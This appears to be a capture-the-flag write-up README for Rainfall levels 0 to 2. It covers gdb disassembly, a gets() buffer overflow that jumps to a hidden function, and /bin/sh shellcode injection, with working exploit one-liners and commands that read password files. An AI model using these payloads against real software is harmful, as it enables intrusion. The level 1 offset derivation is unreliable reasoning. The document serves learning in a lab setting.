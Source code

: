 # Rainfall

---

## Introduction

Welcome to **Rainfall**, the continuation of **snow-crash**, a series of hands-on challenges in cyber security. Each level presents a unique puzzle or exploit that you must solve to uncover a hidden flag and progress to the next challenge. Whether you're a beginner or an experienced hacker, these exercises are designed to sharpen your problem-solving skills and broaden your knowledge of various cyber security concepts.

|<h1>Cyber Security</h1>|
|-|
| <img width="500px" src="https://github.com/42-Course/rainfall/tree/main/meme.png" alt="Cyber Security Meme"> |


<details>
<summary>Notes:</summary>

Registers: Think of registers like small, very fast storage spaces inside the CPU. The key registers we’ll see here are:

    ebp (Base Pointer): Used to mark the start of the current function’s stack frame (a region of memory for the function’s variables).
    esp (Stack Pointer): Points to the top of the stack (a dynamic region of memory where temporary data is stored and managed).
    eax, edx: General-purpose registers used for calculations and temporarily holding values.

Stack: A stack is like a pile of plates. You can only add (push) or remove (pop) plates from the top. It’s used to keep track of function calls, local variables, and temporary data.

Instructions: Assembly instructions are commands to the CPU. For example:

    push: Places (stores) a value on the stack.
    mov: Moves data from one place to another (e.g., from a register to memory or vice versa).
    call: Jumps to another function.
    ret: Returns from a function.
</details>

---

## ![Level 0](https://img.shields.io/badge/Level-0-blue) Disassemble the Memory

![Disassemble the Memory](https://img.shields.io/badge/Disassemble%20the%20memory-ASM-blue?style=for-the-badge&logo=lock)

**Description:** In this level, you need to disassemble the memory and identify an execution path that will reveal the password for the next level if the `cmp` condition is met.

### Steps:
1. **Load the Program into the Debugger**:
   ```bash
   gdb level0
   disas main
   ```
   You'll see something like:
   ```
   0x08048ed4 <+20>:   call   0x8049710 <atoi>
   >0x08048ed9 <+25>:  cmp    $0x1a7,%eax
   ```

2. **Convert the Comparison Value**:
   ```bash
   echo $((16#1a7)) # Output: 423
   ```

3. **Run the Program with the Correct Input**:
   ```bash
   ./level0 423
   ```

4. **Retrieve the Password**:
   ```bash
   whoami # level1
   cat /home/user/level1/.pass
   exit
   ```

---

## ![Level 1](https://img.shields.io/badge/Level-1-green) Buffer Overflow with `gets()`

![Buffer Overflow](https://img.shields.io/badge/Buffer%20Overflow%20gets()-clib-blue?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability in the unsafe `gets()` function. By exploiting this vulnerability, you can overwrite the stack and call the hidden `run()` function.

### Steps:
1. **Analyze the Program**:
   ```bash
   gdb level1
   i func # Look for 'run' function address (e.g., 0x08048444)
   disas main
   ```
   You’ll see:
   ```
   0x08048490 <+16>:   call   0x8048340 <gets@plt>
   ```

2. **Calculate the Offset**:
   ```bash
   echo $((0x08048490 - 0x08048444)) # Output: 76 bytes
   ```

3. **Test the Buffer Overflow**:
   ```bash
   (python -c 'print("A" * 76)'; cat -) | ./level1
   # Results in: Illegal instruction or segmentation fault
   ```

4. **Prepare the Exploit**:
   - Find the `run` function address:
     ```bash
     objdump -d ./level1 | grep run
     # Output: 08048444 <run>:
     ```

   - Execute the exploit:
     ```bash
     (python -c 'print("A" * 76 + "\x44\x84\x04\x08")'; cat -) | ./level1
     ```

5. **Retrieve the Password**:
   ```bash
   whoami # level2
   cat /home/user/level2/.pass
   exit
   ```

---

## ![Level 2](https://img.shields.io/badge/Level-2-yellow) Shellcode Injection

![Shellcode Injection](https://img.shields.io/badge/Shellcode-Injection-yellow?style=for-the-badge&logo=lock)

**Description:** This level features a buffer overflow vulnerability where you can inject shellcode into a buffer and overwrite the return address to execute it. The shellcode spawns a shell, allowing access to the next level.

### Steps:
1. **Analyze the Program**:
   ```bash
   objdump -d ./level2
   ```
   Look for:
   - Use of `gets()` to populate a buffer (e.g., 76 bytes on the stack).
   - Vulnerable return address checks.

2. **Prepare the Shellcode**:
   - Example shellcode to spawn `/bin/sh`:
     ```assembly
     "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
     ```
   - Shellcode length: **21 bytes**.

3. **Craft the Exploit**:
   - Fill the buffer with the shellcode, padding, and return address:
     ```bash
     (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A" * (76 - 21 + 4) + "\x08\xa0\x04\x08")'; cat -) | ./level2
     ```

4. **Retrieve the Password**:
   ```bash
   whoami # level3
   cat /home/user/level3/.pass
   exit
   ```

---

## Conclusion

Rainfall challenges provide an engaging and hands-on way to learn about cyber security concepts such as:
- Buffer overflows
- Shellcode injection
- Binary disassembly
- Exploiting unsafe functions like `gets()`

Each level builds on the previous one, allowing you to gradually deepen your understanding of these critical vulnerabilities and how to exploit or prevent them.

Let’s continue breaking things responsibly and learning to build stronger systems!

---